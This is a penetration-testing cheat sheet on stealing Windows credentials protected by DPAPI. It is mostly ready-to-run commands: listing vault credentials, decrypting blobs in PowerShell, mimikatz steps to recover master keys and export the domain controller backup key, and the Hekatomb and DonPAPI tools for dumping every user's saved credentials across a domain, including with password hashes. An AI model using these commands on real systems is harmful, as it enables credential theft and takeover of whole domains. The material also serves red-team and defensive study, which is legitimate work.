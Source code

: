 # Windows - DPAPI

> On Windows, credentials saved in the Windows Credentials Manager are encrypted using Microsoft's Data Protection API and stored as "blob" files in user AppData folder.

## Summary

* [Data Protection API](#data-protection-api)
    * [List Credential Files](#list-credential-files)
    * [DPAPI LocalMachine Context](#dpapi-localmachine-context)
    * [Mimikatz - Credential Manager & DPAPI](#mimikatz---credential-manager--dpapi)
    * [Hekatomb - Steal all credentials on domain](#hekatomb---steal-all-credentials-on-domain)
    * [DonPAPI - Dumping DPAPI credz remotely](#donpapi---dumping-dpapi-credz-remotely)

## Data Protection API

* Outside of a domain: the user's `password hash` is used to encrypt these "blobs".
* Inside a domain: the `domain controller's master key` is used to encrypt these blobs.

With the extracted private key of the domain controller, it is possible to decrypt all the blobs, and therefore to recover all the secrets recorded in the Windows identification manager of all the work  
stations in the domain.

```ps1
vaultcmd /list

VaultCmd /listcreds:<namevault>|<guidvault> /all
vaultcmd /listcreds:"Windows Credentials" /all
```

### List Credential Files

```ps1
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\

Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

### DPAPI LocalMachine Context

The `LocalMachine` context is used to protect data that is intended to be shared across different users or services on a single machine. This means that any user or service running on the machine can access the protected data with the appropriate credentials.

In contrast, the `CurrentUser` context is used to protect data that is intended to be accessed only by the user who encrypted it, and cannot be accessed by other users or services on the same machine.

```ps1
$a = [System.Convert]::FromBase64String("AQAAANCMnd[...]")
$b = [System.Security.Cryptography.ProtectedData]::Unprotect($a, $null, [System.Security.Cryptography.DataProtectionScope]::LocalMachine)
[System.Text.Encoding]::ASCII.GetString($b)
```

### Mimikatz - Credential Manager & DPAPI

```powershell
# check the folder to find credentials
dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

# check the file with mimikatz
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0
# find master key
mimikatz !sekurlsa::dpapi
# use master key
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b

# find and export backup keys
lsadump::backupkeys /system:dc01.lab.local /export
# use backup keys
dpapi::masterkey /in:"C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```

### Hekatomb - Steal all credentials on domain

> [ProcessusT/Hekatomb](https://github.com/ProcessusT/HEKATOMB) is a python script that connects to LDAP directory to retrieve all computers and users informations. Then it will download all DPAPI blob of all users from all computers. Finally, it will extract domain controller private key through RPC uses it to decrypt all credentials.

```python
pip3 install hekatomb
hekatomb -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp
```

![Data in memory](https://github.com/ProcessusT/HEKATOMB/raw/main/.assets/github1.png)

### DonPAPI - Dumping DPAPI credz remotely

* [login-securite/DonPAPI](https://github.com/login-securite/DonPAPI)

```ps1
DonPAPI.py domain/user:passw0rd@target
DonPAPI.py --hashes <LM>:<NT> domain/user@target

# using domain backup key
dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
python DonPAPI.py -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list
```

## References

* [DPAPI - Extracting Passwords - HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)
* [DON PAPI, OU L’ART D’ALLER PLUS LOIN QUE LE DOMAIN ADMIN - LoginSecurité - CORTO GUEGUEN - 4 MARS 2022](https://www.login-securite.com/2022/03/04/don-papi-ou-lart-daller-plus-loin-que-le-avec-dpapi/)
